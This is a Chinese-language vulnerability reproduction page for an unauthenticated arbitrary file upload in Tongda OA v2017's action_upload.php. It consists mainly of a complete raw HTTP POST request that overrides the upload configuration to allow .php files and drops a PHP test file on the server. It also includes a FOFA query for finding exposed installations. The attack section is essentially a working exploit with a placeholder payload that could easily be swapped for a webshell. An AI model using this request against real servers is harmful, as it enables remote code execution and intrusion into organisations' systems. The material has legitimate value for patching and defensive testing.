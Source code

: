 # 通达OA v2017 action_upload.php 任意文件上传漏洞

## 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

## 漏洞影响

<a-checkbox checked>通达OA v2017</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

访问获取版本信息

![img](../../../.vuepress/public/img/1628301733285-a06c056e-4c78-4b77-bb05-bb01fef71ebc.png)

发送请求包上传任意文件

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

![img](../../../.vuepress/public/img/1628301944004-f70c17d1-14fa-4653-9888-720876947b7d.png)

再访问上传的文件 

![img](../../../.vuepress/public/img/1628301997079-6703e75c-6115-4f8a-a455-3e53054ce34a.png)